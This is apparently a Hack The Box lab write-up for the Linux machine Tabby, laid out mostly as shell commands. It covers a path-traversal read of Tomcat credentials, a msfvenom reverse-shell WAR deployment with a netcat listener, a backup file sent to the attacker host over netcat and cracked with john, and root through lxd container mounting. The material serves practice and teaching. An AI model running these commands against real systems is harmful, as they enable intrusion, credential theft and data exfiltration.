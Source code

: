 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## Recon

### Nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.194
nmap -p 80,8080,22 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.194
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP - Apache), 8080 (Tomcat)

### Add to Hosts
```bash
echo "10.10.10.194 megahosting.htb" | sudo tee -a /etc/hosts
```

---

## Enumeration

### HTTP (Port 80)
- Site: Hosting company
- `http://megahosting.htb/news.php?file=statement` → possible **LFI**

### Gobuster
```bash
gobuster dir -u http://10.10.10.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
```
- Found `/news.php`, `/files/`, `/assets/`

### Tomcat (Port 8080)
- Default Tomcat page
- Found hint: Users in `/etc/tomcat9/tomcat-users.xml`

### LFI to Read tomcat-users.xml
```bash
curl http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
- **Credentials Found**:
  - `tomcat:$3cureP4s5w0rd123!`
  - Roles: `admin-gui`, `manager-script`

---

## Shell as tomcat

### Deploy WAR via Manager Text Interface
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o shell.war
curl -u 'tomcat:$3cureP4s5w0rd123!' \
  --upload-file shell.war \
  'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
```

### Trigger Shell
```bash
nc -lnvp 443
curl http://10.10.10.194:8080/shell
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo; fg
export TERM=xterm
```

---

## Privilege Escalation: tomcat → ash

### Check `/var/www/html/files` Directory
```bash
ls -l /var/www/html/files
```
- Found: `16162020_backup.zip` owned by ash

### Exfiltrate & Crack Zip
```bash
cat 16162020_backup.zip | nc 10.10.14.18 4444
# On host:
nc -lnvp 4444 > 16162020_backup.zip
zip2john 16162020_backup.zip > hash.john
john hash.john --wordlist=/usr/share/wordlists/rockyou.txt
```
- Password: `admin@it`

### su to ash
```bash
su - ash
Password: admin@it
```
- **User Flag**: `cat ~/user.txt`

---

## Privilege Escalation: ash → root

### Check Groups
```bash
id
```
- ash is in `lxd` group

### Exploit LXD
#### Method 1: Standard Alpine Import
```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine
# On Tabby:
wget http://10.10.14.18/alpine.tar.gz
lxc image import alpine.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root/root
cat root.txt
```

#### Method 2: Minimal LXC Root (m0noc)
```bash
echo "<base64-string>" | base64 -d > root.tar.bz2
lxc image import root.tar.bz2 --alias rootimg
lxc init rootimg rootct -c security.privileged=true
lxc config device add rootct hostdisk disk source=/ path=/mnt/root
lxc start rootct
lxc exec rootct /bin/sh
cd /mnt/root/root
cat root.txt
```

---

## Summary
- **LFI** leads to **Tomcat creds**
- WAR deploy via `manager-script` role
- Backup ZIP with password reuse
- `lxd` group exploit to root
